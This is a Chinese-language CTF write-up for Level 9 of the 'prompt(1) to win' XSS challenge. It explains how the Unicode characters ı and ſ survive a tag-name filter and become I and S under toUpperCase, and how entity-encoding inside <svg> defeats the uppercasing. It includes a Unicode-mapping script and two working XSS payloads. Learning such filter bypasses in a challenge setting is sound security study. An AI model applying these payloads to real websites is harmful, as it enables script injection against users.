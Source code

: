 ## [[prompt(1) to win](http://prompt.ml)] [[Level 9 - ECMAScript](http://prompt.ml/9)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3691/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}
```

## 解题报告

### 利用 toUpperCase

这题用正则 `<([a-zA-Z])` 把所有正常标签都过滤成了 `<_` ，而我们的输入内容都在 `<h1>` 标签里面，导致常规可以注入 JS 的标签基本都失效。

不过注意到题目会把我们输入的内容使用 `toUpperCase` 方法全部转换成大写。

一般情况下这个方法只对 ASCII 小写字母起作用，但是根据 [ECAMScript 定义](http://ecma-international.org/ecma-262/5.1/#sec-15.5.4.18)，这个方法对部分 Unicode 字符也会起作用，即它有意把某些 Unicode 字符映射到某些 ASCII 字符（串）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/01.png)

但是我们不清楚这个具体的映射表是什么，是否可利用。

于是我简单写了这个 JS 代码，拷贝到浏览器的控制台运行，即可把 Unicode 通过 `toUpperCase` 方法映射到 ASCII 的映射表打印出来（*此代码只打印了 XSS 可能会用到的 ASCII 字符，并未把全部字符列印*）：

```javascript
UNICODE_RANGE = 65000;
XSS_ASCII_RANGE = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`\r\n"
for (i = 0; i < UNICODE_RANGE; i++) {
    raw_ch = String.fromCharCode(i)
    low_ch = "";
    upp_ch = "";

    if (XSS_ASCII_RANGE.includes(raw_ch.toLowerCase())) {
        low_ch = raw_ch.toLowerCase();
    }

    if (XSS_ASCII_RANGE.includes(raw_ch.toUpperCase())) {
        upp_ch = raw_ch.toUpperCase();
    }

    if ((low_ch != "" || upp_ch != "") && !(XSS_ASCII_RANGE.includes(raw_ch))) {
        console.log(
            "Unicode-Idx: [" + i + "], " + 
            "Raw-Unicode: [" + raw_ch + "], " + 
            "Unicode-Hex: [\\u" + (i).toString(16) + "], " + 
            "To-LowerCase-ASCII: [" + low_ch + "], " + 
            "To-UpperCase-ASCII: [" + upp_ch + "]");
    }
}
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/02.png)

用运行结果来看，有两个字符的映射是明显对我们有用的：

- Unicode 的 `ı` 通过 `toUpperCase` 会被转换成 ASCII 的 `I`
- Unicode 的 `ſ` 通过 `toUpperCase` 会被转换成 ASCII 的 `S`

> 可以映射到 `ST` 的两个字符 `ﬅ` 或 `ﬆ` 也是可以利用的，只是相对没那么方便。

换言之，只要我们输入 `<ı` 或 `<ſ` ，即可绕过题目对标签名的正则过滤，而题目的 `toUpperCase` 方法又会帮我们将他们转换成 `<I` 或 `<S` 。

由于 HTML 的标签名和属性名都是大小写不敏感的，因此我们就可以利用这个特点，注入以 `I` 或 `S` 开头的标签。

由此首先想到可以的标签就有 3 个 ： `<IMG>` 、`<SCRIPT>` 、`<SVG>`

------------


### 绕过 toUpperCase

于是尝试注入 payload `<ımg src=0 onerror=prompt(1) />`

虽然成功注入为 `<IMG SRC=0 ONERROR=PROMPT(1) />` ，但是在触发 `onerror` 事件时报错：

`Uncaught ReferenceError: PROMPT is not defined`

原因是 JS 对函数名是大小写敏感的，而 `prompt` 也被转换成了大写。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/03.png)

此时我想到可以利用 `<svg>` **运行时才解析实体编码**的特性，对大写转换进行绕过。

即先把 `prompt` 编码成 `&#112;&#114;&#111;&#109;&#112;&#116;` ，这样实体编码在输出到前端之前， `toUpperCase` 对它就不起作用了。

然后再使用 `<svg>` 标签包围实体编码，实体编码就能在输出到前端后、在运行时被解析还原成 `prompt` 。

于是把 payload 修改成这样，完成挑战：

`<ſvg><ımg src=0 onerror=&#112;&#114;&#111;&#109;&#112;&#116;(1) /></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/04.png)

这个 payload 也是可以完成挑战的，相对简单点：

`<ſvg><ſcript>&#112;&#114;&#111;&#109;&#112;&#116;(1)</script></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2009%20-%20ECMAScript/imgs/05.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

